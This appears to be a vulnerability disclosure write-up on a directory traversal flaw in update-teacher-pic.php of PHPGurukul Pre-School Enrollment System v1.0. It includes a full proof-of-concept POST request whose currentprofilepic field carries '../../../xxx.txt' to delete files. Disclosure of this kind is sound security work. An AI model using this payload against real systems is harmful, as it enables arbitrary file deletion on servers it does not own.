# PHPGurukul Pre-School Enrollment System Project directory traversal vulnerability-4(update-teacher-pic.php)

**PHPGurukul  Pre-School Enrollment System Project introduce**
   
   PHPGurukul Pre-School Enrollment System Project is a web-based pre-school enrollment system by PHPGurukul.   

**Vulnerability description**

   There is a security vulnerability in PHPGurukul Pre-School Enrollment System Project v1.0. The vulnerability is caused by  directory traversal vulnerability, which allows remote attackers to traverse directories and delete traversed files.

 PHPGurukul Project address

   
   https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql/

   During the code audit, it was found that there was a problem with currentprofilepic in the update-teacher-pic.php file 
   Lines 15 and 16 get the currentprofilepic parameter and assign it to oldprofilepic. No verification is performed on currentprofilepic.
   ![1](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/8.png)   
   Line 40 unlink oldprofilepic, which leads to this directory traversal vulnerability
   ![9](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/9.png) 
   After analyzing the code, we tried to exploit the vulnerability
   
   **Loophole principle**
   
   Log in to the system backend management system
     
   ![2](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/2.png)
      
   Find the vulnerable functionality in the update-teacher-pic.php page,   Teachers-Manage-Add Teacher-Update Profile Pic-Update Teacher Profile Pic
  
   ![3](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/2.png)
   ![4](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/3.png)
   ![5](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/7.png)
  
   Intercept the data packet and find the problematic parameter currentprofilepic
   
   ![6](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/4.png)

   Transformed into attack payload    


    POST /Pre-School-Enrollment-System-PHP/preschool/admin/update-teacher-pic.php?tid=1 HTTP/1.1
    Host: localhost
    sec-ch-ua-platform: "Windows"
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCOslMZHmxE3UWS8E
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
    Sec-Fetch-Site: same-origin
    Referer: http://localhost/Pre-School-Enrollment-System-PHP/preschool/admin/update-teacher-pic.php?tid=1
    Accept-Language: zh-CN,zh;q=0.9
    Accept-Encoding: gzip, deflate, br, zstd
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Cookie: PHPSESSID=qqnj1t0sdqqbv8qh5jrevaaln8
    Upgrade-Insecure-Requests: 1
    sec-ch-ua-mobile: ?0
    Sec-Fetch-Mode: navigate
    sec-ch-ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
    Origin: http://localhost
    Sec-Fetch-Dest: document
    Cache-Control: max-age=0
    Sec-Fetch-User: ?1
    Content-Length: 5637583

    ------WebKitFormBoundaryCOslMZHmxE3UWS8E
    Content-Disposition: form-data; name="currentprofilepic"

    ../../../xxx.txt
    ------WebKitFormBoundaryCOslMZHmxE3UWS8E
    Content-Disposition: form-data; name="profilepic"; filename="804a28a9c5be300aafa9f83527956d13.jpeg"
    Content-Type: image/jpeg


    ------WebKitFormBoundaryCOslMZHmxE3UWS8E
    Content-Disposition: form-data; name="submit"


    ------WebKitFormBoundaryCOslMZHmxE3UWS8E--


   Create xxx.txt test file in  D:\phpstudy_pro\WWW\Pre-School-Enrollment-System-PHP
      ![7](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/5.png)

   Send payload, xxx.txt file has been deleted   
   ![8](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/6.png)   
   This directory traversal vulnerability can cause the traversed files to be deleted.

 **The affected version**   
 PHPGurukul Pre-School Enrollment System Project v1.0    
 Strictly validate and filter all paths entered by users to ensure that only specified files or directories are allowed to be accessed. Regular expressions can be used to restrict the path format.
 
   

